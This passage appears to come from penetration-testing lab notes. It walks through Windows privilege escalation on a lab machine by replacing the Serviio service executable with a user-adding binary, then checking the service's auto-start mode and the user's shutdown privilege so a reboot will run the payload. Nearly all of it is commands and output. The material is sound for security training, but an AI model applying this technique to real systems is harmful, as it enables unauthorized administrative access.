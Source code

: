  
  
Transfer and replace OG binary:  
```powershell
C:\Users\student> move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"  
1 file(s) moved.  
  
C:\Users\student> move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"  
1 file(s) moved.  
  
C:\Users\student> dir "C:\Program Files\Serviio\bin\"  
Volume in drive C has no label.  
Volume Serial Number is 56B9-BB74  
  
Directory of C:\Program Files\Serviio\bin  
  
01/26/2018  07:21 AM    <DIR>          .  
01/26/2018  07:21 AM    <DIR>          ..  
12/04/2016  08:30 PM               867 serviio.bat  
01/26/2018  07:19 AM            48,373 ServiioService.exe  
12/04/2016  08:30 PM                10 ServiioService.exe.vmoptions  
12/04/2016  08:30 PM           413,696 ServiioService_original.exe  
4 File(s)        462,946 bytes  
2 Dir(s)   3,826,667,520 bytes free
```


As most services are managed by administrative users, we can't restart the service:  
```powershell
C:\Users\student> net stop Serviio  
System error 5 has occurred.  
  
Access is denied.
```


Check start options of the service:  
```powershell
C:\Users\student>wmic service where caption="Serviio" get name, caption, state, startmode  
Caption  Name     StartMode  State  
Serviio  Serviio  Auto       Running
```


Check if our user has reboot rights:  
```powershell
C:\Users\student>whoami /priv  
  
PRIVILEGES INFORMATION  
----------------------  
  
Privilege Name                Description                          State  
============================= ==================================== ========  
SeShutdownPrivilege           Shut down the system                 Disabled  
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled  
SeUndockPrivilege             Remove computer from docking station Disabled  
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled  
SeTimeZonePrivilege           Change the time zone                 Disabled
```
	**_Disabled_ state only indicates if the privilege is currently enabled for the running process (whoami).  
  